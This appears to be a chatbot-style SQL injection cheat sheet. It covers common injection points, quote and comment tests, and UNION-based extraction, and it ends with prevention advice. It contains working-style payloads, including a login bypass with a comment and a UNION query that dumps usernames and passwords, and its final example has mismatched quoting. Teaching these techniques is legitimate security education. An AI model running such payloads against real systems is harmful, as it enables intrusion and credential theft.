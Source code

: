 1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using DNS and HTTP requests to exfiltrate data

Understood! Let's focus on the first part: **Basic SQL Injection**.

## Basic SQL Injection Cheat Sheet

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - RESTful and SOAP API parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
   - Enter a single quote (`'`) in input fields or URL parameters.
   - If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
   - Example:
     ```
     Login Username: admin'
     ```
     SQL Query:
     ```sql
     SELECT * FROM users WHERE username = 'admin'';
     ```

2. **Comment Injection Test**:
   - Use SQL comments (`--`, `#`) to bypass parts of the query.
   - Example:
     ```
     Login Username: admin' -- 
     ```
     SQL Query:
     ```sql
     SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
     ```

3. **Error-Based Testing**:
   - Inject known bad inputs and look for database error messages.
   - Example:
     ```
     Product ID: 1'
     ```
     - SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
    
   - Possible error message:
     ```
     SQL syntax error near '1''
     ```

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns**:
   - Inject a UNION SELECT statement with NULL values to identify the number of columns.
   - Example:
     ```
     Product ID: 1 UNION SELECT NULL, NULL, NULL
     ```
     SQL Query:
     ```sql
     SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
     ```
   - Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types**:
   - Replace NULL with values matching the data type of each column.
   - Example:
     ```
     Product ID: 1 UNION SELECT 1, 'string', NULL
     ```

3. **Extract Data**:
   - Once the number of columns and their data types are known, extract data from another table.
   - Example:
     ```
     Product ID: 1 UNION SELECT username, password, NULL FROM users
     ```
     SQL Query:
     ```sql
     SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
     ```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate SQL code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.

Understanding these fundamental concepts and techniques will help you identify and prevent SQL injection vulnerabilities. If you need more detailed examples or have further questions, feel free to ask!